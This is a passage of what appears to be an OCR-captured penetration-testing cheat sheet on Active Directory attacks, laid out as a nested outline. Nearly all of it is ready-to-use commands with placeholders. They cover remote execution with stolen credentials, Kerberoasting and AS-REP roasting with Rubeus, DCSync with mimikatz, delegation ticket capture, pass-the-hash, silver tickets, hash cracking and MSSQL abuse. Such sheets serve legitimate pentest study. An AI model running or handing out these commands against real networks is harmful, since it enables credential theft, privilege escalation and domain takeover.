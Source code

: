             *   RDP Access 
                *   CMD/PS → Right-Click → “Run as Administrator”
                *   Input User Credentials
*   Domain Escalation
    *   Admin Hunting
        *   `Find-LocalAdminAccess`
        *   Credential Objects
            *   Check if member of `"Remote Management Users"`
            *   `$pass = ConvertTo-SecureString "[PASS]" -AsPlainText -Force`
            *   `$cred = New-Object -TypeName System.Management.Automation.PSCredential("[USER]", $pass)`
            *   `Invoke-Command -Cred $cred -ScriptBlock{[COMMAND]} -ComputerName [REMOTE_HOSTNAME]`
        *   PS Remoting
            *   `Enable-PSRemoting`
            *   `$sess = New-PSSession -ComputerName [REMOTE_HOSTNAME]`
            *   `Enter-PSSession -Session $sess [-Cred $cred]`
            *   File Transfers → `Copy-Item` + From/To Session Variable
        *   SMB RCE
            *   `Invoke-WMIExec`
            *   `Invoke-SMBExec`
    *   Domain Roasting
        *   `Invoke-Rubeus -Command "asreproast /domain:[DOMAIN] /nowrap"`
        *   `Invoke-Rubeus -Command “kerberoast /domain:[DOMAIN] /nowrap”`
    *   DACL Abuse
        *   `Invoke-ACLScanner` / `Find-InterestingDomainACL`
        *   `Invoke-Bloodhound`
        *   [Exploitations 101](https://www.thehacker.recipes/ad/movement/dacl/) / [102](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
        *   DCSyncing → `mimikatz “lsadump::dcsync /user:Administrator”`
    *   Unconstrained Delegation
        *   `Get-NetComputer -Unconstrained`
        *   `Invoke-Rubeus -Command "dump /nowrap"`
        *   `Invoke-Rubeus -Command "monitor /monitorinterval:10 /targetuser:dc1$ /nowrap"`
    *   MSSQL Instances
        *   `Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo`
        *   [PowerUP-SQL Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
        *   [Exploitations](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql#mssql-basic-abuse)
*   Users
    *   Service Accounts < Normal Users < Administrator → Determine EOP Path
    *   Authentication
        *   Local Passwords
            *   `net user [USERNAME]`
            *   `$creds = New-Object System.Management.Automation.PSCredential('[HOSTNAME\[USER]', $(ConvertTo-SecureString '[PASSWORD' -AsPlainText -Force))`
            *   `Start-Process -FilePath "C:\Windows\System32\cmd.exe" -ArgumentList "/c [OS_COMMAND]" -Credential $creds`
        *   NT Hashes
            *   `Invoke-Rubeus "asktgt /domain:[DOMAIN] /user:[USER] /rc4:[HASH] /ptt"`
            *   Password Conversion → `iconv -f ASCII -t UTF-16LE <(printf "[PASS]") | openssl dgst -md4`
            *   Cracking                         → `hashcat -m 1000`
        *   Service Hashes
            *   `Invoke-Rubeus "silver /service:[SPN] /rc4:[SRV_HASH] /user:Administrator /ldap /ptt"`
            *   Export Ticket → Impersonate Admin + [SPN Abuses](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#abusing-service-tickets)
        *   User Tickets
            *   `Invoke-Rubeus -Command "ptt /ticket:[KIRBI_TICKET/B64_STRING]"`
            *   B64 to Kirbi      → `[IO.File]::WriteAllBytes("[KIRBI_TICKET]", [Convert]::FromBase64String("[BASE64_TICKET]"))`
            *   Kirbi to B64      → `[Convert]::ToBase64String([IO.File]::ReadAllBytes("[KIRBI_TICKET"]))`
    *   Enumeration
        *   `net user`                       → `net user [USER]`  → Sensitive Exposure / Memberships / Logon Scripts        